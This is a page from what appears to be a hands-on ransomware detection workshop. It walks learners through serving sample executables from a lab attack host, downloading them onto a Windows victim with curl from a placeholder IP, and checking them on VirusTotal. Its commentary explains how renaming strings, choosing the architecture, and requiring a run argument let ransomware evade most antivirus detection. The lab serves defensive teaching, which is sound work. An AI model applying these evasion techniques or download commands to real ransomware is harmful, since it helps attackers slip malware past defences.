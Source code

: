# Detection

## Host the "evil" files.

1. Make sure you are connected to the NIX-ATTACK-HOST-#
2. First record your IP address on the eth0 interface. `ip addr`
3. Ensure you are still in the "notransomware" directory. Change directories if necesary. `cd /home/ubuntu/rsac21-ransom`
4. Run the following command to serve the files for download.
`python3 -m http.server`

## Update Lab Files
1. Now it is time to swap to the WINDOWS-VICTIM-HOST. Press ctrl+shift+alt(command+ctrl+shift). Click the drop down in the top left of the side menu and select the WIN-VICTIM-HOST connection.
2. Open a administrative command prompt by clicking the search icon (magnifying glass) in the bottom left.
3. Type cmd and click on the command prompt desktop app icon when it appears.
4. Change directories to the lab files on the desktop. `cd c:\Users\Administrator\Desktop\rsac21-ransom`
5. Update the files from the git repo.  `git pull`

## Download the "evil" files.

1. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
    1. Is a folder on the desktop called "rsac21-ransom" (If not, launch a command prompt and run `git clone `)
    2. Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)

2. Open a command prompt by clicking the search icon in the bottom left and typing `cmd`.
3. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://<NIX-ATTACK-HOST IP HERE>:8000/test1.exe -o test1.exe`
4. Once you have this worked out, download all the files you created on the linux attack host just changing the file names.
    1. test1.exe
    2. test264.exe
    3. test232.exe
    4. test332-arg.exe
5. This is your first detection example...no alerts from windows defender.

## What does virust total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. Click the **choose a file** optiont to upload for analysis.
3. Browse to C:\Users\Administrator\Desktop\rsac-ransom and select test1.exe.
4. Wait for the analysis.
> Remember this is was the file that you saved as is and compiled in the amd64 architecture. Having just ~6(may increase as more people upload) detections for what will effectively encrypt files in your homedrive and attempt to connect to a server, while dropping a key and ransom note is pretty scary in itself.
5. Now Click the upload button in the top left beside the search bar and upload the second sample test264.exe.
> This was the sample you simply replaced all occurances of the word encrypt with another word. This now comes back  detections. Putting on show case that changing common words and text associated with malware inside binaries will trick a number of detections in iteslef. Not to mention this changes zero function of the binary while completely changing the hash.
6. Finally, upload the 32bit version of this sample. Same sample as before, but compliled for the more commonly execuable 32bit architecture.
> By nature of the architecture you will see many more detections now, many of the static and behavioral analysis tools are tuned toward 32bit binaires and instructions.
7. All that's great but now upload the final sample where you added the argument requirement for it to run. Test232-args.exe.
> You will notice nearly all the detections go away now, even in the 32bit architecture. All of that work spent on creating different types of anti analysis techiniques and simply adding an argument requirement will fool nearly every auto analysis capability out there, making the detection solely reliant on strings.

Let's return to talk about what just happened and get ready to move on to live reponse.

[Live Response](response.md)
